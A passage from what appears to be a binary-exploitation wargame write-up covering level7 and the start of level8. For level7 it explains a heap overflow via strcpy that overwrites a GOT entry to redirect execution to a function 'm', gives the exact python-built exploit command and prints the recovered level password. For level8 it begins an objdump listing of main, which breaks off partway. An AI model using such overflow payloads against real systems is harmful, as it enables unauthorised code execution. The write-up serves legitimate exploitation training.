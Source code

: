 Here is the layout for the second one

![image](https://hackmd.io/_uploads/Sk5B962Bp.png)

I have ran this many times, and turns out the same. The layout looks kinds of like this

![image](https://hackmd.io/_uploads/BJxCpahrT.png)

With this information, now we know that for the first strcpy, we will overwrite the value of ptr_2_ptr2[1] via buffer overflow with the GOT of 20 bytes.

The second strcpy will then write the address of the m function with an address in the GOT, which is at ptr_2_ptr2[1]

I ran the program like this and It game me the password `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`
```
./level7 `python -c print"'B' * 20 + '\x08\x04\x99\x28'[::-1]"`  ` python -c print"'\x08\x04\x84\xf4'[::-1]"`
```

![image](https://hackmd.io/_uploads/H1X81A3Bp.png)

## level8
Below is an objdump of the program

```
08048564 <main>:
 8048564:       55                      push   ebp
 8048565:       89 e5                   mov    ebp,esp
 8048567:       57                      push   edi
 8048568:       56                      push   esi
 8048569:       83 e4 f0                and    esp,0xfffffff0
 804856c:       81 ec a0 00 00 00       sub    esp,0xa0
 8048572:       eb 01                   jmp    8048575 <main+0x11>
 8048574:       90                      nop
 8048575:       8b 0d b0 9a 04 08       mov    ecx,DWORD PTR ds:0x8049ab0
 804857b:       8b 15 ac 9a 04 08       mov    edx,DWORD PTR ds:0x8049aac
 8048581:       b8 10 88 04 08          mov    eax,0x8048810
 8048586:       89 4c 24 08             mov    DWORD PTR [esp+0x8],ecx
 804858a:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 804858e:       89 04 24                mov    DWORD PTR [esp],eax
 8048591:       e8 7a fe ff ff          call   8048410 <printf@plt>
 8048596:       a1 80 9a 04 08          mov    eax,ds:0x8049a80
 804859b:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 804859f:       c7 44 24 04 80 00 00    mov    DWORD PTR [esp+0x4],0x80
 80485a6:       00
 80485a7:       8d 44 24 20             lea    eax,[esp+0x20]
 80485ab:       89 04 24                mov    DWORD PTR [esp],eax
 80485ae:       e8 8d fe ff ff          call   8048440 <fgets@plt>
 80485b3:       85 c0                   test   eax,eax
 80485b5:       0f 84 71 01 00 00       je     804872c <main+0x1c8>
 80485bb:       8d 44 24 20             lea    eax,[esp+0x20]
 80485bf:       89 c2                   mov    edx,eax
 80485c1:       b8 19 88 04 08          mov    eax,0x8048819
 80485c6:       b9 05 00 00 00          mov    ecx,0x5
 80485cb:       89 d6                   mov    esi,edx
 80485cd:       89 c7                   mov    edi,eax
 80485cf:       f3 a6                   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
 80485d1:       0f 97 c2                seta   dl
 80485d4:       0f 92 c0                setb   al
 80485d7:       89 d1                   mov    ecx,edx
 80485d9:       28 c1                   sub    cl,al
 80485db:       89 c8                   mov    eax,ecx
 80485dd:       0f be c0                movsx  eax,al
```